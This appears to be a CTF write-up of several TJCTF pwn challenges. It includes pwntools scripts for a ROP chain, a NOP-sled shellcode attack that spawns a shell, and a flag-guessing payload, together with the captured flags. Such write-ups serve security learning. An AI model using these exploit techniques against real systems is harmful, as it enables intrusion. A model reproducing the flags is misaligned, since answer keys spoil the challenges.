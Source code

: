# Heap Challenge

By debugging and reading the source code, you can observe an attack path: changing the size to 0xa0 and then allocating the same size (with 0x98) will print the data 0x20 bytes after the chunk, where the flag should be.
tjctf{bby-eap-lol171296386}, exploited mannually with netcat

![](https://github.com/dplastico/dplastico.github.io/raw/main/_posts/img/heap.png)

# Ring Opening

A simple ROP:

```python
#!/usr/bin/python3
from pwn import *
gs = '''
b main
continue
'''
elf = context.binary = ELF('./out')
context.terminal = ['tmux', 'splitw', '-hp', '70']

def start():
    if args.GDB:
        return gdb.debug('./out', gdbscript=gs)
    if args.REMOTE:

        return remote('tjc.tf', 31457)
    else:
        return process('./out')
r = start()
r.timeout = 1
#========= exploit here ===================
libc = elf.libc
#0x0000000000401016: ret
poprdi = 0x0040117a
ret = 0x401016

payload = b"A"*0x10
payload += p64(poprdi)
payload += p64(0xdeadbeef)
payload += p64(elf.sym.win)

r.sendline(payload)

#========= interactive ====================
r.interactive()

#tjctf{bby-rop-1823721665as87d86a5}
```
# Sled

A jmp and shellcode easy challenge:

```python
#!/usr/bin/python3
from pwn import *
gs = '''
b main
continue
'''
elf = context.binary = ELF('./out')
context.terminal = ['tmux', 'splitw', '-hp', '70']

def start():
    if args.GDB:
        return gdb.debug('./out', gdbscript=gs)
    if args.REMOTE:
        return remote('tjc.tf', 31456)
    else:
        return process('./out')
r = start()
#========= exploit here ===================
payload = asm('''
    mov rdx, 0x401136
    call rdx
    ''')

print(hex(len((payload))))

r.sendline(payload)
payload = b"\x90"*0x20
payload += asm(shellcraft.sh())
r.sendline(payload)

#========= interactive ====================
r.interactive()
#tjctf{bby-shhEellLcodeeeeeaf7af7f66}
```
# WtTwo

You can observe the flag in memory and just send it to print the flag remotely:

```python
#!/usr/bin/python3
from pwn import *
gs = '''
b *main +430
continue
'''
elf = context.binary = ELF('./wttwo')
context.terminal = ['tmux', 'splitw', '-hp', '70']

def start():
    if args.GDB:
        return gdb.debug('./wttwo', gdbscript=gs)
    if args.REMOTE:
        return remote('127.0.0.1', 5555)
    else:
        return process('./wttwo')
r = start()
#========= exploit here ===================

payload = b"t"
payload += b"j"
payload += b"c"
payload += b"t"
payload += b"f"
payload += b"{"
payload += b"w"
payload += b"t"
payload += b"-"
payload += b"t"
payload += b"h"
payload += b"e"
payload += b"-"
payload += b"t"
payload += b"w"
payload += b"o"
payload += b"o"
payload += b"o"
payload += b"o"
payload += b"o"
payload += b"a"
payload += b"s"
payload += b"4"
payload += b"8"
payload += b"%"
payload += b"@"
payload += b"d"
payload += b"f"
payload += b"s"
payload += b"}"
payload += b"A"*(30-len(payload))
print(payload)
r.sendlineafter(b"Guess my flag!!", payload)

#========= interactive ====================
r.interactive()
```
